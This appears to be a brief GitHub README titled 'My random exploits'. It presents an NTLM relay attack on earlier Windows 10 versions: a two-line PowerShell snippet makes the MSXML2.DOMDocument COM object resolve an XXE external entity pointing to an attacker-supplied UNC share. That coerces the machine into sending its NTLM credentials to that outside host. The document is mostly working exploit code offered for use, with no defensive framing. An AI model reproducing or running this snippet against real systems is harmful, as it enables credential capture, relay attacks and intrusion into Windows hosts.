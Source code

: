 ## My random exploits

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (Thanks to @[frostb1te](https://twitter.com/frostb1ten) for helping me learn about ntlm relay)

- Works on earlier version of Windows 10
```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```
